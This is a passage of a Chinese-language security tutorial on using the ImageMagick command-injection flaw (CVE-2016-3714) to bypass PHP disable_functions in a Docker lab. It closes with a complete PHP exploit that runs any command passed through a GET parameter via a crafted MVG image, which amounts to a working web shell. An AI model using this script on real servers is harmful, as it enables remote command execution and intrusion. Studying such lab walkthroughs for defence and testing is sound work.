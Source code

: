 ##  利用ImagMagick

**使用条件：**

> 目标主机安装了漏洞版本的imagemagick（<= 3.3.0）
>
> 安装了php-imagick拓展并在php.ini中启用；
>
> 编写php通过new Imagick对象的方式来处理图片等格式文件；
>
> PHP >= 5.4

### 原理简述

imagemagick是一个用于处理图片的程序，它可以读取、转换、写入多种格式的图片。图片切割、颜色替换、各种效果的应用，图片的旋转、组合，文本，直线，多边形，椭圆，曲线，附加到图片伸展旋转。

利用ImageMagick绕过disable_functions的方法利用的是ImageMagick的一个漏洞（CVE-2016-3714）。漏洞的利用过程非常简单，只要将精心构造的图片上传至使用漏洞版本的ImageMagick，ImageMagick会自动对其格式进行转换，转换过程中就会执行攻击者插入在图片中的命令。因此很多具有头像上传、图片转换、图片编辑等具备图片上传功能的网站都可能会中招。所以如果在phpinfo中看到有这个ImageMagick，可以尝试一下。

###  演示过程

我们使用网上已有的docker镜像来搭建环境：

```
docker pull medicean/vulapps:i_imagemagick_1
docker run -d -p 8000:80 --name=i_imagemagick_1 medicean/vulapps:i_imagemagick_1
```

启动环境后，访问 [http://your-ip:8000](http://your-ip:8000/)端口：

![image-20220327213024068](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203272130215.png)

此时目标主机仍然设置了disable_functions只是我们无法执行命令，并且查看phpinfo发现其安装并开启了ImageMagick拓展

此时我们便可以通过攻击ImageMagick绕过disable_functions来执行命令。

将一下利用脚本上传到目标主机上有权限的目录（/var/tmp/exploit.php）：

```php
<?php
echo "Disable Functions: " . ini_get('disable_functions') . "\n";

$command = PHP_SAPI == 'cli' ? $argv[1] : $_GET['cmd'];
if ($command == '') {
   $command = 'id';
}

$exploit = <<<EOF
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|$command")'
pop graphic-context
EOF;

file_put_contents("KKKK.mvg", $exploit);
$thumb = new Imagick();
$thumb->readImage('KKKK.mvg');
$thumb->writeImage('KKKK.png');
$thumb->clear();
$thumb->destroy();
unlink("KKKK.mvg");
unlink("KKKK.png");
?>
```
